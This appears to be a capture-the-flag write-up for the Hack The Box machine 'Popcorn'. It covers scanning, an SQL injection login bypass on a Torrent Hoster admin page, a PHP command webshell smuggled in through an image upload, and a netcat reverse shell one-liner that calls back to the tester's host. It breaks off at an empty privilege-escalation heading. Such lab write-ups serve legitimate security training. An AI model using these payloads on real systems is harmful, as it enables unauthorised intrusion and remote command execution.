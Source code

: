 First enumeration with nmap 

```
# Nmap 7.93 scan initiated Wed May 17 12:13:10 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 22,80 -Pn 10.10.10.6
Nmap scan report for 10.10.10.6
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.12 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 17 12:13:24 2023 -- 1 IP address (1 host up) scanned in 14.03 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/34f2bb05-236d-4107-95e9-4f812e523e1c)

noticed a web server running on port 80, openning it on a browser, got directed to a default web page. let's fuzz for hidden dirs.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Popcorn] 
└─$ dirb http://10.10.10.6/                                                                                                                                            
                                                                                                                                                                       
-----------------                                                                                                                                                      
DIRB v2.22                                                                                                                                                             
By The Dark Raver                                                                                                                                                      
-----------------                                                                                                                                                      
                                                                                                                                                                       
START_TIME: Wed May 17 11:43:45 2023                                                                                                                                   
URL_BASE: http://10.10.10.6/                                                                                                                                           
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt                                                                                                                   
                                                                                                                                                                       
-----------------                                                                                                                                                      
                                                                                                                                                                       
GENERATED WORDS: 4612                                                                                                                                                  
                                                                                                                                                                       
---- Scanning URL: http://10.10.10.6/ ----                                                                                                                             
+ http://10.10.10.6/cgi-bin/ (CODE:403|SIZE:286)                                                                                                                       
+ http://10.10.10.6/index (CODE:200|SIZE:177)                                                                                                                          
+ http://10.10.10.6/index.html (CODE:200|SIZE:177)                                                                                                                     
+ http://10.10.10.6/server-status (CODE:403|SIZE:291)                                                                                                                  
+ http://10.10.10.6/test (CODE:200|SIZE:47330)                                                                                                                         
==> DIRECTORY: http://10.10.10.6/torrent/ 

---- Entering directory: http://10.10.10.6/torrent/ ----                                                                                                               
==> DIRECTORY: http://10.10.10.6/torrent/admin/                                                                                                                        
+ http://10.10.10.6/torrent/browse (CODE:200|SIZE:9278)                                                                                                                
+ http://10.10.10.6/torrent/comment (CODE:200|SIZE:936)                                                                                                                
+ http://10.10.10.6/torrent/config (CODE:200|SIZE:0)
```
cool we have a juicy dir `torrent`, let's check it out.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/818c8009-fae9-4ced-8fe2-f57b84f03ab2)

navigating to the torrent dir, got directed to a torrent hoster cms. let's try to login.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/2a79dbbc-fc62-46d0-ac5b-75dac33f7cd4)

tried to bypass the login page using sqli payload `admin' or 1=1-- :admin' or 1=1-- `...

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/80fd833d-d2ac-4f51-a0bb-1f2fbc90094c)

Bull's eye it worked, we are in as admin. let's check for how to exploit this service `Torrent Hoster`. there's a file upload vuln let's exploit it.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Popcorn]
└─$ wget https://cdimage.kali.org/kali-2023.1/kali-linux-2023.1-installer-amd64.iso.torrent
--2023-05-18 00:31:47--  https://cdimage.kali.org/kali-2023.1/kali-linux-2023.1-installer-amd64.iso.torrent
Resolving cdimage.kali.org (cdimage.kali.org)... 192.99.200.113
Connecting to cdimage.kali.org (cdimage.kali.org)|192.99.200.113|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://kali.download/base-images/kali-2023.1/kali-linux-2023.1-installer-amd64.iso.torrent [following]
--2023-05-18 00:31:49--  https://kali.download/base-images/kali-2023.1/kali-linux-2023.1-installer-amd64.iso.torrent
Resolving kali.download (kali.download)... 104.18.103.100, 104.18.102.100, 2606:4700::6812:6664, ...
Connecting to kali.download (kali.download)|104.18.103.100|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 296259 (289K) [application/octet-stream]
Saving to: ‘kali-linux-2023.1-installer-amd64.iso.torrent’

kali-linux-2023.1-installer-amd64.iso.tor 100%[====================================================================================>] 289.32K   284KB/s    in 1.0s    

2023-05-18 00:31:51 (284 KB/s) - ‘kali-linux-2023.1-installer-amd64.iso.torrent’ saved [296259/296259]
```
first we download a torrent file from [torrent](https://cdimage.kali.org/kali-2023.1/kali-linux-2023.1-installer-amd64.iso.torrent). 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/160d762d-b62e-4dbd-9976-5603fb77ab5d)

click on the upload button and upload the torrent file you downloaded, after that click the upload torrent button.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/9238a81c-d1c1-425e-96fc-dcec1361701a)

after uploading the torrent file, it will show there's no image file found. click on edit this torrent.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a5e1931b-21ed-43b2-9096-c29650a15abe)

upload an image file then intercept with burp.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/30f23cfb-585b-40c4-9d0a-c282809b383d)

delete all that image content, put a payload 

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/842c14a9-30e3-429f-b5ab-f77cc85b10eb)

replace those content with the php cmd webshell payload above, add .php to the image file, and send the request. now let's check the shell in the /upload dir.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/56a5585c-d30f-4a00-904e-614e9d74294b)

cool we got our php shell, let's try it out if we got RCE.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/943da629-c8ec-4dcc-a2fc-8a61f0b50853)

great we got RCE. let's get a reverse shell. fire up ncat listener 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.14 445 >/tmp/f
```
reverse shell payload.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1b6c65ba-e475-410c-ba69-fd80e3881ae6)

send the payload and check back ncat listener.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Popcorn]
└─$ ncat -lnvp 445                                            
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::445
Ncat: Listening on 0.0.0.0:445
Ncat: Connection from 10.10.10.6.
Ncat: Connection from 10.10.10.6:42739.
bash: no job control in this shell
www-data@popcorn:/var/www/torrent/upload$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@popcorn:/var/www/torrent/upload$ 
```
bingo we got a reverse shell...


## Privilege Escalation 










